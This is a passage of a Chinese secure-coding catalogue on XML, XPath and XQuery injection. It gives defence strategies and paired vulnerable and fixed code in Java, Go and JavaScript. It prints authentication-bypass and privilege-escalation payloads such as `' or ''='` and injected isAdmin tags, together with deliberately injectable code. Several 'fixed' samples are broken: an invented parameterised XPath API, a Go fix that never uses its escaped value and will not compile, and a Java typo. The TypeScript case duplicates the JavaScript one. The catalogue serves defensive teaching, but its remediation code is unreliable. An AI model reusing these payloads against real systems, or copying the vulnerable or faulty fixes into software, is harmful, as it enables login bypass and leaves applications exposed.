  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: XML操作直接拼接用户输入导致XML注入**
**语言: **JAVA

**描述**
如果在 XML 文档中写入未验证的数据，可能会使攻击者修改 XML 的结构和内容。XML injection 会在以下情况中出现：
1. 数据从一个不可信赖的数据源进入程序。
2. 数据写入到 XML 文档中。

应用程序通常使用 XML 来存储数据或发送消息。当 XML 用于存储数据时，XML 文档通常会像数据库一样进行处理，而且可能会包含敏感信息。XML 消息通常在 web 服务中使用，也可用于传输敏感信息。XML 消息甚至还可用于发送身份验证凭据。
如果攻击者能够写入原始 XML，则可以更改 XML 文档和消息的语义。
- 危害最轻的情况下，攻击者可能会插入无关的标签，导致 XML 解析器抛出异常。
- XML injection 更为严重的情况下，攻击者可以添加 `XML` 元素，更改身份验证凭据或修改 `XML` 电子商务数据库中的价格。还有一些情况，`XML injection` 可以导致 `cross-site scripting` 或 `dynamic code evaluation`。

**案例分析**
假设攻击者能够控制下列 XML 中 UserQuery 的`ID`:
```xml
<UserQuery>
<Condition>ID=1</Condition>
</UserQuery>
```
现在假设，在后端 Web 服务请求中包含该 XML。假设攻击者可以修改请求，并将 `UserQuery` 替换成 `1</Condition><Condition>ID=2 or 1=1</Condition>`。新的 XML 如下所示：
```xml
<UserQuery>
<Condition>ID=1</Condition>
<Condition>ID=2 or 1=1</Condition>
</UserQuery>
```
攻击者通过这种方式可以修改查询逻辑，可能获取所有用户信息。

**反例**
```java
import org.w3c.dom.*;
import javax.xml.parsers.*;
import javax.xml.transform.*;
import javax.xml.transform.dom.DOMSource;
import javax.xml.transform.stream.StreamResult;
import java.io.*;

public class XMLInjectionVulnerable {
    public static void main(String[] args) {
        // 模拟用户输入
        String userInput = args.length > 0 ? args[0] : "1"; // 正常情况下用户输入ID
        
        try {
            // 创建XML文档
            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
            DocumentBuilder builder = factory.newDocumentBuilder();
            Document doc = builder.newDocument();
            
            // 创建根元素
            Element root = doc.createElement("UserQuery");
            doc.appendChild(root);
            
            // 直接使用用户输入构造XML查询条件 - 存在XML注入风险
            Element condition = doc.createElement("Condition");
            condition.appendChild(doc.createTextNode("ID=" + userInput));
            root.appendChild(condition);
            
            // 输出XML文档
            TransformerFactory transformerFactory = TransformerFactory.newInstance();
            Transformer transformer = transformerFactory.newTransformer();
            DOMSource source = newDOMSource(doc);
            StringWriter writer = new StringWriter();
            StreamResult result = new StreamResult(writer);
            
            transformer.transform(source, result);
            Logger.info("生成的XML查询:");
            Logger.info(writer.toString());
            
            // 这里应该是实际的XML查询执行逻辑...
            
        } catch (Exception e) {
            // ...异常处理
        }
    }
}
```

**正例**
```java
import org.w3c.dom.*;
import javax.xml.parsers.*;
import javax.xml.transform.*;
import javax.xml.transform.dom.DOMSource;
import javax.xml.transform.stream.StreamResult;
import org.apache.commons.text.StringEscapeUtils;
import java.io.*;

public class XMLInjectionFixed {
    public static void main(String[] args) {
        // 模拟用户输入
        String userInput = args.length > 0 ? args[0] : "1";
        
        try {
            // 创建XML文档
            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
            
            // 禁用外部实体，防止XXE攻击
            factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
            factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
            
            DocumentBuilder builder = factory.newDocumentBuilder();
            Document doc = builder.newDocument();
            
            // 创建根元素
            Element root = doc.createElement("UserQuery");
            doc.appendChild(root);
            
            // 对用户输入进行XML编码后再使用
            String sanitizedInput = StringEscapeUtils.escapeXml11(userInput);
            Element condition = doc.createElement("Condition");
            condition.appendChild(doc.createTextNode("ID=" + sanitizedInput));
            root.appendChild(condition);
            
            // 输出XML文档
            TransformerFactory transformerFactory = TransformerFactory.newInstance();
            Transformer transformer = transformerFactory.newTransformer();
            DOMSource source = new DOMSource(doc);
            StringWriter writer = new StringWriter();
            StreamResult result = new StreamResult(writer);
            
            transformer.transform(source, result);
            Logger.info("生成的XML查询:");
            Logger.info(writer.toString());
            
        } catch (Exception e) {
            // ...异常处理
        }
    }
}
```

**修复建议**
- 输入验证：确保用户输入符合预期格式（如只包含数字）。
- XML编码：使用专门的库（如Apache Commons Text的`StringEscapeUtils.escapeXml11()`）对用户输入进行XML编码，将特殊字符转换为对应的实体引用：`<` 转换为 `&lt;`；`>` 转换为 `&gt;`；`&` 转换为 `&amp;`；`"` 转换为 `&quot;`；`'` 转换为 `&apos;`。
- 禁用外部实体：配置XML解析器禁用外部实体引用，防止XXE攻击。
- 使用参数化查询：如果可能，使用预编译的XPath或XQuery，并将用户输入作为参数传递。

**案例2: XML操作直接拼接用户输入导致XML注入**
**语言: **GO

**描述**
如果在 XML 文档中写入未验证的数据，可能会使攻击者修改 XML 的结构和内容。XML injection 会在以下情况中出现：
1. 数据从一个不可信赖的数据源进入程序。
2. 数据写入到 XML 文档中。

应用程序通常使用 XML 来存储数据或发送消息。当 XML 用于存储数据时，XML 文档通常会像数据库一样进行处理，而且可能会包含敏感信息。XML 消息通常在 web 服务中使用，也可用于传输敏感信息。XML 消息甚至还可用于发送身份验证凭据。
如果攻击者能够写入原始 XML，则可以更改 XML 文档和消息的语义。
- 危害最轻的情况下，攻击者可能会插入无关的标签，导致 XML 解析器抛出异常。
- XML injection 更为严重的情况下，攻击者可以添加 `XML` 元素，更改身份验证凭据或修改 `XML` 电子商务数据库中的价格。还有一些情况，`XML injection` 可以导致 `cross-site scripting` 或 `dynamic code evaluation`。

**案例分析**
- 攻击者可以注入额外的XML标签或属性，例如：添加`<role>admin</role>`来提升权限，注入恶意实体声明导致XXE攻击，
破坏XML结构导致解析错误。
- XXE攻击：虽然Go的`encoding/xml`默认禁用外部实体解析，但直接拼接用户输入仍然可能导致XML结构破坏或数据篡改。

**反例**
```go
package main

import (
	"encoding/xml"
	"fmt"
	"os"
)

type User struct {
	XMLName xml.Name `xml:"user"`
	Name    string   `xml:"name"`
	Email   string   `xml:"email"`
}

func main() {
	// 模拟用户输入
	userInput := `<name>John Doe</name><email>john@example.com</email><role>admin</role>`

	// 直接拼接用户输入到XML中
	xmlData := fmt.Sprintf(`<?xml version="1.0"?>
<user>
	%s
</user>`, userInput)

	// 解析XML
	var user User
	err := xml.Unmarshal([]byte(xmlData), &user)
	if err != nil {
		fmt.Printf("Error unmarshaling XML: %v\n", err)
		return
	}

	// 输出结果
	fmt.Printf("Name: %s\n", user.Name)
	fmt.Printf("Email: %s\n", user.Email)

	// 将XML写入文件
	file, err := os.Create("user.xml")
	if err != nil {
		fmt.Printf("Error creating file: %v\n", err)
		return
	}
	defer file.Close()

	_, err = file.WriteString(xmlData)
	if err != nil {
		fmt.Printf("Error writing to file: %v\n", err)
		return
	}
	fmt.Println("XML data written to user.xml")
}
```

**正例**
```go
package main

import (
	"encoding/xml"
	"fmt"
	"os"
	"strings"
)

type User struct {
	XMLName xml.Name `xml:"user"`
	Name    string   `xml:"name"`
	Email   string   `xml:"email"`
}

func sanitizeXML(input string) string {
	// 替换XML特殊字符为实体引用
	input = strings.ReplaceAll(input, "&", "&amp;")
	input = strings.ReplaceAll(input, "<", "&lt;")
	input = strings.ReplaceAll(input, ">", "&gt;")
	input = strings.ReplaceAll(input, "\"", "&quot;")
	input = strings.ReplaceAll(input, "'", "&apos;")
	return input
}

func main() {
	// 模拟用户输入
	userInput := `<name>John Doe</name><email>john@example.com</email><role>admin</role>`

	// 对用户输入进行转义处理
	sanitizedInput := sanitizeXML(userInput)

	// 使用结构体生成XML而不是拼接字符串
	user := User{
		Name:  "John Doe",
		Email: "john@example.com",
	}

	xmlData, err := xml.MarshalIndent(user, "", "  ")
	if err != nil {
		fmt.Printf("Error marshaling XML: %v\n", err)
		return
	}

	// 输出结果
	fmt.Printf("Name: %s\n", user.Name)
	fmt.Printf("Email: %s\n", user.Email)

	// 将XML写入文件
	file, err := os.Create("user.xml")
	if err != nil {
		fmt.Printf("Error creating file: %v\n", err)
		return
	}
	defer file.Close()

	_, err = file.Write(xmlData)
	if err != nil {
		fmt.Printf("Error writing to file: %v\n", err)
		return
	}
	fmt.Println("XML data written to user.xml")
}
```

**修复建议**
- 避免直接拼接XML：使用Go的 `encoding/xml` 包提供的 `Marshal` 方法从结构体生成XML，而不是拼接字符串。
- 输入验证和转义：对于必须处理用户提供的XML片段的情况，实现严格的输入验证和XML特殊字符转义。
- 使用安全解析器：利用Go标准库中默认安全的XML解析器，它默认禁用外部实体解析。
- 最小化信任原则：只接受必要的字段，而不是整个XML片段。

**案例3: XML操作直接拼接用户输入导致XML注入**
**语言: **JAVASCRIPT

**描述**
如果在 XML 文档中写入未验证的数据，可能会使攻击者修改 XML 的结构和内容。XML injection 会在以下情况中出现：
1. 数据从一个不可信赖的数据源进入程序。
2. 数据写入到 XML 文档中。

应用程序通常使用 XML 来存储数据或发送消息。当 XML 用于存储数据时，XML 文档通常会像数据库一样进行处理，而且可能会包含敏感信息。XML 消息通常在 web 服务中使用，也可用于传输敏感信息。XML 消息甚至还可用于发送身份验证凭据。
如果攻击者能够写入原始 XML，则可以更改 XML 文档和消息的语义。
- 危害最轻的情况下，攻击者可能会插入无关的标签，导致 XML 解析器抛出异常。
- XML injection 更为严重的情况下，攻击者可以添加 `XML` 元素，更改身份验证凭据或修改 `XML` 电子商务数据库中的价格。还有一些情况，`XML injection` 可以导致 `cross-site scripting` 或 `dynamic code evaluation`。

**案例分析**
直接拼接用户输入：代码直接将用户提供的 `username` 和 `password` 拼接到XML字符串中，没有进行任何过滤或编码。
现在假设攻击者输入如下用户名：
```xml
const maliciousUsername = 'admin</username><isAdmin>true</isAdmin><username>user';
```
生成的XML将变为：
```xml
<userAuthRequest>
<username>admin</username>
<isAdmin>true</isAdmin>
<username>user</username>
<password>anyPassword</password>
</userAuthRequest>
```
这样攻击者可能通过注入 `isAdmin` 标签来提升权限。

**反例**
```javascript
// 从用户输入获取搜索条件
const username = document.getElementById('usernameInput').value;
const password = document.getElementById('passwordInput').value;

// 构造XML查询
const xmlQuery = `
<userAuthRequest>
    <username>${username}</username>
    <password>${password}</password>
</userAuthRequest>
`;

// 发送XML请求
fetch('/api/authenticate', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: xmlQuery
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error('Error:', error));
```

**正例**
```javascript
// 从用户输入获取搜索条件
const username = document.getElementById('usernameInput').value;
const password = document.getElementById('passwordInput').value;

// 对用户输入进行XML编码
function encodeForXML(input) {
    if (!input) return '';
    return input.replace(/&/g, '&amp;')
                .replace(/</g, '&lt;')
                .replace(/>/g, '&gt;')
                .replace(/"/g, '&quot;')
                .replace(/'/g, '&apos;');
}

// 使用编码后的值构造XML查询
const xmlQuery = `
<userAuthRequest>
    <username>${encodeForXML(username)}</username>
    <password>${encodeForXML(password)}</password>
</userAuthRequest>
`;

// 发送XML请求
fetch('/api/authenticate', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: xmlQuery
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error('Error:', error));
```

**修复建议**
- 实施XML编码：创建 `encodeForXML` 函数对用户输入进行编码，将特殊字符转换为对应的XML实体。
- XML编码：对用户输入进行XML编码，将特殊字符转换为对应的实体引用：`<` 转换为 `&lt;`；`>` 转换为 `&gt;`；`&` 转换为 `&amp;`；`"` 转换为 `&quot;`；`'` 转换为 `&apos;`。
- 使用编码后的值：在构造XML字符串时，所有用户提供的输入都经过编码函数处理。

**案例4: XML操作直接拼接用户输入导致XML注入**
**语言: **TYPESCRIPT

**描述**
如果在 XML 文档中写入未验证的数据，可能会使攻击者修改 XML 的结构和内容。XML injection 会在以下情况中出现：
1. 数据从一个不可信赖的数据源进入程序。
2. 数据写入到 XML 文档中。

应用程序通常使用 XML 来存储数据或发送消息。当 XML 用于存储数据时，XML 文档通常会像数据库一样进行处理，而且可能会包含敏感信息。XML 消息通常在 web 服务中使用，也可用于传输敏感信息。XML 消息甚至还可用于发送身份验证凭据。
如果攻击者能够写入原始 XML，则可以更改 XML 文档和消息的语义。
- 危害最轻的情况下，攻击者可能会插入无关的标签，导致 XML 解析器抛出异常。
- XML injection 更为严重的情况下，攻击者可以添加 `XML` 元素，更改身份验证凭据或修改 `XML` 电子商务数据库中的价格。还有一些情况，`XML injection` 可以导致 `cross-site scripting` 或 `dynamic code evaluation`。

**案例分析**
直接拼接用户输入：代码直接将用户提供的 `username` 和 `password` 拼接到XML字符串中，没有进行任何过滤或编码。
现在假设攻击者输入如下用户名：
```xml
const maliciousUsername = 'admin</username><isAdmin>true</isAdmin><username>user';
```
生成的XML将变为：
```xml
<userAuthRequest>
<username>admin</username>
<isAdmin>true</isAdmin>
<username>user</username>
<password>anyPassword</password>
</userAuthRequest>
```
这样攻击者可能通过注入 `isAdmin` 标签来提升权限。

**反例**
```javascript
// 从用户输入获取搜索条件
const username = document.getElementById('usernameInput').value;
const password = document.getElementById('passwordInput').value;

// 构造XML查询
const xmlQuery = `
<userAuthRequest>
    <username>${username}</username>
    <password>${password}</password>
</userAuthRequest>
`;

// 发送XML请求
fetch('/api/authenticate', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: xmlQuery
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error('Error:', error));
```

**正例**
```javascript
// 从用户输入获取搜索条件
const username = document.getElementById('usernameInput').value;
const password = document.getElementById('passwordInput').value;

// 对用户输入进行XML编码
function encodeForXML(input) {
    if (!input) return '';
    return input.replace(/&/g, '&amp;')
                .replace(/</g, '&lt;')
                .replace(/>/g, '&gt;')
                .replace(/"/g, '&quot;')
                .replace(/'/g, '&apos;');
}

// 使用编码后的值构造XML查询
const xmlQuery = `
<userAuthRequest>
    <username>${encodeForXML(username)}</username>
    <password>${encodeForXML(password)}</password>
</userAuthRequest>
`;

// 发送XML请求
fetch('/api/authenticate', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: xmlQuery
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error('Error:', error));
```

**修复建议**
- 实施XML编码：创建 `encodeForXML` 函数对用户输入进行编码，将特殊字符转换为对应的XML实体。
- XML编码：对用户输入进行XML编码，将特殊字符转换为对应的实体引用：`<` 转换为 `&lt;`；`>` 转换为 `&gt;`；`&` 转换为 `&amp;`；`"` 转换为 `&quot;`；`'` 转换为 `&apos;`。
- 使用编码后的值：在构造XML字符串时，所有用户提供的输入都经过编码函数处理。

#### CWD-1081-000 XML注入

#### CWD-1081-001 【dom4j】使用org.dom4j.Document及其子类下的addDocType方法为XML文档添加文档类型声明时，参数使用了不可信的外部数据，造成XML注入

#### CWD-1081-002 【dom4j】使用org.dom4j.Document及其子类下的addProcessingInstruction方法为XML文档添加处理指令时，参数使用了不可信的外部数据，造成XML注入

#### CWD-1081-003 【dom4j】使用org.dom4j.Element及其子类下的addCDATA方法为XML节点添加CDATA片段时，参数使用了不可信的外部数据，造成XML注入

#### CWD-1081-004 【dom4j】使用org.dom4j.Element及其子类下的addComment方法为XML节点添加注释时，参数使用了不可信的外部数据，造成XML注入

#### CWD-1081-005 【通用】将拼接了不可信数据的XML字符串写入XML文件，业务期望的值可能被覆盖，造成XML注入

**业界缺陷**

- [CWE-91: XML Injection (aka Blind XPath Injection)](https://cwe.mitre.org/data/definitions/91.html)
---

# CWD-1082 XPath注入

**别名: **XPath表达式中的数据中和不当（“XPath注入”）；未安全处理XPath输入；未能清理XPath表达式中的数据（“XPath注入”）

**描述**
使用外部输入动态构造用于从XML数据库检索数据的XPath表达式，但未处理或不正确处理该输入。这允许攻击者控制查询的结构。攻击者将控制从XML数据库中选择的信息，并可能使用这种能力来控制应用程序流，修改逻辑，检索未经授权的数据，或者绕过重要的检查（例如身份验证）。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用参数化查询
  设计系统时，避免直接拼接用户输入到XPath查询中，而是使用参数化查询或预编译的XPath表达式，确保用户输入作为参数而非代码执行。
- 策略2：输入验证和过滤
  在设计阶段就规划好输入验证机制，确保所有用户输入都经过严格的验证和过滤，只允许预期的字符和格式。
- 策略3：最小权限原则
  设计系统时，确保应用程序以最低权限运行，限制对XML数据的访问，减少潜在的攻击影响。

**编码**
- 策略1：使用参数化的XPath查询 `推荐`
  有效性：高
  避免将用户输入直接拼接到XPath表达式中，改用参数化查询（例如使用XQuery），防止注入攻击。
- 策略2：输入验证
  在适当的地方拒绝数据，在适当的地方过滤，在适当的地方转义。确保将在XPath查询中使用的输入在该上下文中是安全的。
- 策略3：输入转义
  对所有用户输入进行转义处理，确保特殊字符如 `'`, `"`，`<`, `>`, `&` 等被正确转义，防止被用作注入点。
- 策略4：使用安全的XML库
  确保使用的XML解析库是最新版本，修复已知的安全漏洞，提升整体安全性
- 策略5：限制查询范围
  在代码中限制XPath查询的范围，避免复杂的查询结构，减少攻击面。

**开发者测试**
- 策略1：单元测试：编写单元测试，覆盖各种输入情况，特别是恶意输入，确保系统能够正确处理和防御。

**代码Review**
- 策略1：审查输入处理
  检查所有用户输入是否被正确处理和转义，确保没有直接拼接的情况。
- 策略2：检查参数化使用
  确保所有XPath查询都使用参数化方法，避免动态生成查询字符串。
- 策略3：验证逻辑审查
  审查数据验证逻辑，确保输入符合预期，没有遗漏的验证点。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 使用参数化查询防止XPath注入**
**语言: **JAVA

**描述**
存储身份验证信息的简单XML文档和使用XPath查询检索身份验证信息，用于根据提供的凭据检索主目录。用户输入未经过验证和转义，直接用于构建XPath表达式，导致XPath注入攻击的风险。

**案例分析**
```xml
<users>
<user>
<login>john</login>
<password>abracadabra</password>
<home_dir>/home/john</home_dir>
</user>
<user>
<login>cbc</login>
<password>1mgr8</password>
<home_dir>/home/cbc</home_dir>
</user>
</users>
```
假设用户“john”希望利用XPath注入并在没有有效密码的情况下登录。通过提供username `john` 和 password `' or ''='` ,XPath表达式现在变成
```shell
//users/user[login/text()='john' or ''='' and password/text() = '' or ''='']/home_dir/text()
```
这使得用户"john"在没有有效密码的情况下登录，从而绕过身份验证。

**反例**
```java
public static String getHomeDir(Login login) {
    try {
        // 创建XPath工厂
        XPath xpath = XPathFactory.newInstance().newXPath();
        // 危险：直接使用外部输入
        XPathExpression xlogin = xpath.compile("//users/user[login/text()='" + login.getUserName()
            + "' and password/text() = '" + login.getPassword() + "']/home_dir/text()");
        // 解析XML文件
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new File("db.xml"));
        return xlogin.evaluate(doc);
    } catch (XPathExpressionException | SAXException | IOException | DOMException e) {
        // ...处理异常，返回错误信息或默认值
    }
}
```

**正例**
```java
public static String getHomeDir(Login login) {
    try {
        // 创建XPath工厂
        XPath xpath = XPathFactory.newInstance().newXPath();
        // 安全地编译XPath表达式，使用参数化查询
        String xpathExpression = "//users/user[login/text()=? and password/text()=?]/home_dir/text()";
        XPathExpression expr = xpath.compile(xpathExpression);
        // 解析XML文件
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
        Document doc = dBuilder.parse(new File("db.xml"));
        // 使用参数化查询，避免注入
        String[] params = {login.getUserName(), login.getPassword()};
        return (String) expr.evaluate(doc, XPathConstants.STRING, params);
    } catch (XPathExpressionException | SAXException | IOException | DOMException e) {
        // ...处理异常，返回错误信息或默认值
    }
}
```

**修复建议**
- 参数化查询：使用`?`作为占位符，并在`evaluate`方法中传递参数数组，避免直接拼接用户输入，防止XPath注入。
- 禁用外部实体和脚本执行：设置`DocumentBuilderFactory`和`XPath`的特征，禁用外部实体和脚本执行，防止XXE攻击。
- 异常处理：使用`try-catch`块捕获可能的异常，如`XPathExpressionException`、`SAXException`、`IOException`和`DOMException`，并返回友好的错误信息或默认值，避免程序崩溃。

#### CWD-1082-000 XPath注入

#### CWD-1082-001 【dom4j】使用org.dom4j.Document及其子类下的selectNodes、selectObject、selectSingleNode、valueOf、numberValueOf、matches、createXPath等方法时，参数使用了不可信的外部数据作为XPath，造成XPath注入

#### CWD-1082-002 【JDK】使用javax.xml.xpath.XPathFactory创建的XPath对象编译XPath表达式时，参数使用了不可信的外部数据，造成XPath注入

**业界缺陷**

- [CWE-643: Improper Neutralization of Data within XPath Expressions ('XPath Injection')](https://cwe.mitre.org/data/definitions/643.html)
---

# CWD-1083 XQuery注入

**别名: **XQuery表达式中的数据中和不当（“XQuery注入”）；未安全处理XQuery输入；未能清理XQuery表达式中的数据（“XQuery注入”）

**描述**
使用外部输入动态构造用于从XML数据库检索数据的XQuery表达式，但未处理或不正确处理该输入，这允许攻击者控制查询的结构，可以控制从XML数据库中选择的信息，并可能使用这种能力来控制应用程序流，修改逻辑，检索未经授权的数据，或者绕过重要的检查（例如身份验证）。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用参数化查询
  设计系统时，避免直接拼接用户输入到XPath查询中，而是使用参数化查询或预编译的XPath表达式，确保用户输入作为参数而非代码执行。
- 策略2：输入验证和过滤
  在设计阶段就规划好输入验证机制，确保所有用户输入都经过严格的验证和过滤，只允许预期的字符和格式。
- 策略3：最小权限原则
  设计系统时，确保应用程序以最低权限运行，限制对XML数据的访问，减少潜在的攻击影响。

**编码**
- 策略1：使用参数化查询 `推荐`
  有效性：高
  使用参数化查询，防止注入攻击。
- 策略2：输入验证
  在适当的地方拒绝数据，在适当的地方过滤，在适当的地方转义。确保将在XQL查询中使用的输入在该上下文中是安全的。
- 策略3：输入转义
  对所有用户输入进行转义处理，确保特殊字符如 `'`, `"`，`<`, `>`, `&` 等被正确转义，防止被用作注入点。
- 策略4：使用安全的XML库
  确保使用的XML解析库是最新版本，修复已知的安全漏洞，提升整体安全性
- 策略5：限制查询范围
  在代码中限制XPath查询的范围，避免复杂的查询结构，减少攻击面。

**开发者测试**
- 策略1：单元测试：编写单元测试，覆盖各种输入情况，特别是恶意输入，确保系统能够正确处理和防御。

**代码Review**
- 策略1：审查输入处理
  检查所有用户输入是否被正确处理和转义，确保没有直接拼接的情况。
- 策略2：检查参数化使用
  确保所有XPath查询都使用参数化方法，避免动态生成查询字符串。
- 策略3：验证逻辑审查
  审查数据验证逻辑，确保输入符合预期，没有遗漏的验证点。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 未对用户输入进行处理导致XQuery注入**
**语言: **JAVA

**描述**
一个Java应用程序中存在的XQuery注入漏洞。该应用程序允许用户通过输入员工ID来查询员工信息，后端使用XQuery从XML数据库中检索数据。由于未对用户输入进行适当处理，攻击者可以构造恶意输入来修改XQuery查询逻辑，可能导致未授权数据访问或数据库信息泄露。

**案例分析**
代码直接将用户提供的empId参数拼接到XQuery查询字符串中，没有进行任何验证或转义。
- 正常输入：`"12345"` → 查询ID为12345的员工
- 恶意输入：`"' or '1'='1"` → 查询变为：
```xquery
for $emp in /employees/employee where $emp/id = '' or '1'='1' return $emp
```
这将返回所有员工记录，而不仅仅是匹配ID的记录

**反例**
```java
import javax.xml.xquery.XQConnection;
import javax.xml.xquery.XQDataSource;
import javax.xml.xquery.XQException;
import javax.xml.xquery.XQExpression;
import javax.xml.xquery.XQResultSequence;
import net.xqj.exist.ExistXQDataSource;

public class EmployeeQuery {
    public void queryEmployee(String empId) {
        XQDataSource xqs = new ExistXQDataSource();
        try {
            xqs.setProperty("serverName", "localhost");
            xqs.setProperty("port", "8080");
            
            XQConnection conn = xqs.getConnection();
            XQExpression expr = conn.createExpression();
            
            // 有风险的XQuery构造方式 - 直接拼接用户输入
            String query = "for $emp in /employees/employee " +
                           "where $emp/id = '" + empId + "' " +
                           "return $emp";
            
            XQResultSequence result = expr.executeQuery(query);
            
            // 处理查询结果...
            while (result.next()) {
                Logger.info(result.getItemAsString(null));
            }
            
            result.close();
            expr.close();
            conn.close();
        } catch (XQException e) {
            // ...异常处理
        }
    }
}
```

**正例**
```java
import javax.xml.xquery.XQConnection;
import javax.xml.xquery.XQDataSource;
import javax.xml.xquery.XQException;
import javax.xml.xquery.XQExpression;
import javax.xml.xquery.XQPreparedExpression;
import javax.xml.xquery.XQResultSequence;
import net.xqj.exist.ExistXQDataSource;

public class SecureEmployeeQuery {
    public void queryEmployee(String empId) {
        // 输入验证
        if (empId == null || !empId.matches("^[0-9]+$")) {
            throw new IllegalArgumentException("Invalid employee ID");
        }
        
        XQDataSource xqs = new ExistXQDataSource();
        try {
            xqs.setProperty("serverName", "localhost");
            xqs.setProperty("port", "8080");
            
            XQConnection conn = xqs.getConnection();
            
            // 使用参数化查询
            String query = "declare variable $id as xs:string external; " +
                           "for $emp in /employees/employee " +
                           "where $emp/id = $id " +
                           "return $emp";
            
            XQPreparedExpression expr = conn.prepareExpression(query);
            expr.bindString(new QName("id"), empId, null);
            
            XQResultSequence result = expr.executeQuery();
            
            // 处理查询结果...
            while (result.next()) {
                Logger.info(result.getItemAsString(null));
            }
            
            result.close();
            expr.close();
            conn.close();
        } catch (XQException e) {
            // ...异常处理
        }
    }
}
```

**修复建议**
- 输入验证：在将用户输入用于查询前，验证其是否符合预期格式（本例中只允许数字）。
- 参数化查询：使用 `XQPreparedExpression` 代替简单的 `XQExpression` ；在XQuery中声明外部变量；使用 `bindString` 方法安全地绑定参数值。
- 最小权限原则：确保数据库连接使用具有最小必要权限的账户。

#### CWD-1083-000 XQuery注入

#### CWD-1083-001 修改XML查询条件

#### CWD-1083-002 XML文档篡改

**业界缺陷**

- [CWE-652: Improper Neutralization of Data within XQuery Expressions ('XQuery Injection')](https://cwe.mitre.org/data/definitions/652.html)
---

# CWD-1084 XSLT注入

